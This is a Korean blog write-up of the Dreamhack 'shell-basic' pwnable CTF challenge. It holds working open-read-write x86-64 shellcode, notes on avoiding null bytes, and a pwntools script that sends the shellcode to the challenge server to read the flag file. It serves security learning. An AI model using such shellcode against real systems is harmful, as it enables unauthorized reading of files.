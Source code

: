 ```yaml
---
title: "[pwn]shell-basic"
category: CTF
tags: [pwnable]
excerpt: "dreamhack shell-basic writeup"
toc: true
toc_label: "Table of Contents"
toc_sticky: true
toc_icon: "bars"
---
```


처음 풀어보는 포너블 문제라 감도 안왔지만 튜토리얼로 어느정도는 따라갈 수 있었다. 파일 경로가 길어졌다는 것을 제외하면 같은 방식이다.
## 환경조사  
  amd64 LE  
## Assembly 작성
  ~~~
__asm__(
	".global main\n"
        "main:\n"

	"xor rax,rax\n"
	"push rax\n"
        "mov rax,0x676E6F6F6F6F6F6F\n"
	"push rax\n"
        "mov rax,0x6C5F73695F656D61\n"
        "push rax\n"
	"mov rax,0x6E5F67616C662F63\n"
        "push rax\n"
	"mov rax,0x697361625F6C6C65\n"
        "push rax\n"
	"mov rax,0x68732F656D6F682F\n"
        "push rax\n"
	"mov rdi,rsp\n"
        "xor rsi,rsi\n"
        "xor rdx,rdx\n"
	"xor rax,rax\n"
	"add rax,0x2\n"
        "syscall\n"
	"\n"
        "mov rdi,rax\n"
	"mov rsi,rsp\n"
	"sub rsi,0x30\n"
        "xor rax,rax\n"
	"xor rdx,rdx\n"
	"add rdx,0x30\n"
        "syscall\n"
	"\n"
	"xor rdi,rdi\n"
	"add rdi,0x1\n"
	"xor rax,rax\n"
	"add rax,0x1\n"
        "syscall");
  ~~~
  먼저 stack에 file location을 string의 형태로 넣었다. 파일 경로가 8byte에 맞아 떨어지므로 \0을 마지막에 넣어주기 위해 0을 먼저 push해주었다.   
  그 이후에는 SYSCALL 함수의 parameter에 따라 변수를 넣어준다. **SYS_OPEN(const char \*filename,int flags,umode_t mode)** 에 flags=0, mode=null 을 넣어준다. **SYS_READ(unsigned int fd,char \*buf,size_t count)**, **SYS_WRITE(unsigned int fd,char \*buf,size_t count)** 함수의 parameter에 맞게 넣어주면 된다.  
  
  shell code에는 \x00이 포함되면 안되므로 **mov rax,0x0** 이 아닌 **xor rax,rax**를 해주어야 한다. **mov rax,0x1**도 마찬가지로 0x1이 64bit size에 맞춰 0x01000000이 된다. 따라서 xor과 add를 통해 입력한다.
  {: .notice--danger}
## gcc  
  **gcc -o orw orw.c -masm=intel** 명령어를 통해 컴파일한다.  
## objdump  
  **objdump -d ./orw** 명령어로 opcode를 추출한다.  
  <img width="605" alt="opcode" src="https://user-images.githubusercontent.com/45323902/154000690-ae589c0c-4fb5-46fa-823f-0cd0e2fd155d.png">  
  여기서 마지막 syscall(\x0f\x05)까지만 추출하면 된다.  
## script 작성
  ~~~
	from pwn import *

	p=remote('host1.dreamhack.games',22700)
	p.recvuntil(b'shellcode:')
    exploit=b'\x48\x31\xc0\x50\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x48\x83\xc0\x02\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\x48\x31\xc0\x48\x31\xd2\x48\x83\xc2\x30\x0f\x05\x48\x31\xff\x48\x83\xc7\x01\x48\x31\xc0\x48\x83\xc0\x01\x0f\x05'
	p.send(exploit)
	p.interactive()
  ~~~
  script를 이용해 shellcode를 전달하면 함수 내부에서 shellcode를 메모리에 넣고 실행하게 된다.  
  <img width="725" alt="script exec" src="https://user-images.githubusercontent.com/45323902/154060282-9a3a8081-505a-4e1f-b5fe-d719bde16195.png">  
  이때 flag이후에 다른 값이 나오는 이유는 buf size가 0x30인데 flag가 그보다 짧아 메모리에 있는 다른 내용까지 출력하게 된 것이다.
